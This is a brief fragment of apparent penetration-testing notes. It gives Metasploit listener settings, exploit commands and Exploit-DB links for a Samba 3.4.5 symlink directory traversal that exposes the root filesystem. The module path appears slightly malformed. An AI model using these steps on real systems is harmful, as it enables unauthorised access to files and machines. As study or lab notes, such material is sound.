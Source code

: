 ```bash
set RHOST 10.10.x.x
set LPORT 443
set LHOST IP
exploit -j -z

'Samba 3.4.5 Symlink Directory Traversal'
# You can mount the root fiilesystem to a share you can access
https://www.exploit-db.com/exploits/33599

# Using metasploit
https://www.exploit-db.com/exploits/33598
use auxiliary/admin/smb/samba_symlink/traversal
```